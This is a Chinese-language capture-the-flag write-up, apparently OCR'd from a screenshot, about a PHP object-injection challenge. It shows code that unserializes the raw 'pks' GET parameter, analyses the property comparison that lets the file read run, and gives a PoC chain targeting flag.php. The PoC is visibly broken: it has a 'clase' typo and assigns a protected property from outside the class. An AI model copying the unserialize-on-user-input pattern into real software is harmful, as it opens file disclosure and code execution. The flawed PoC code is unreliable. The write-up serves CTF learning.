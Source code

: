 ```
    public $openstack;
    public $docker; 
    function echo_name()      
    {   
        $this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
        $file = "./{$this->filename}";
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "keystone lost~"; 
            }    
        }
    }  
}  

if (isset($_GET['pks']))  
{
    $logData = unserialize($_GET['pks']);
    echo $logData; 
} 
else 
{ 
    highlight_file(__file__); 
}
?>
```

## 代码分析
1. 反序列化pks，赋值给logData，然后输出
2. pkshow类没什么好说的
3. acp会首先将cinder构建为pkshow对象，然后调用里面的echo_name输出，我们不想要这个
4. ace的echo_name会反序列化成员变量docker，然后赋值给openstack
5. 比较openstack里面的neutron和nova，看看是否值和类型都相等
6. 相等就根据$filename读取文件
7. 如果openstack没有neutron和nova，那么必然相等，即——虚无和虚无是等价的。毕竟$heat的值是不知道的。这意味着根本不用管docker和openstack

## poc链条
```
<?php
class ace{
    public $filename;     
    public $openstack;
    public $docker; 
}
clase acp{
    protected $cinder;  
    public $neutron;
    public $nova;
}

$a = new acp();
$a->cinder=new ace();
$a->cinder->filename="flag.php";
?>
```
